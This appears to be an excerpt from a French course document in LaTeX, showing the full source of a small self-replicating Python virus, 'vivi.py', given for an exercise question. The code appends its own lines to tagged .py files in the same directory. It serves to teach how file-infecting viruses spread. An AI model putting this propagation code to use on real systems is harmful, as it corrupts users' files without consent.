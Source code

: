 Le virus \verb|vivi.py| de la question 4.
\begin{verbatim}
#signature vivi.py gjhhjhggh

sign = '#signature vivi.py gjhhjhggh'
tag = '""" a infecter  """'

import os.path
chemin_vers_mon_doss = os.getcwd()
mon_nom = os.path.basename(__file__)


#recherche des cibles
a_infecter = []
mes_voisins = os.listdir(chemin_vers_mon_doss)
for machin in mes_voisins:
  if (os.path.splitext(machin)[1]=='.py' and machin != mon_nom):
    fifi = open(machin)
    fifi_txt = fifi.read();
    if fifi_txt.find(sign) == -1 and fifi_txt.find(tag) != -1:
      a_infecter.append(machin)
    fifi.close()
    
#place ses p dernieres lignes dans une variable mon_texte
p = 47
mon_fifi = open(__file__)
  #calcule le nb de lignes du fichier qui le contient
i = 0
for lili in mon_fifi:
    i += 1
#print i
deb = i - p
mon_texte = '\n\n#########infection par vivi.py \n\n'
mon_fifi.seek(0)
i = 0
for lili in mon_fifi:
    if i>= deb:
        mon_texte += lili
    i += 1
#print mon_texte
mon_fifi.close()

#infection des cibles
for machin in a_infecter:
  print machin + " infecte"
  fifi = open(machin,'a')
  fifi.write(mon_texte)
  fifi.close()
\end{verbatim}
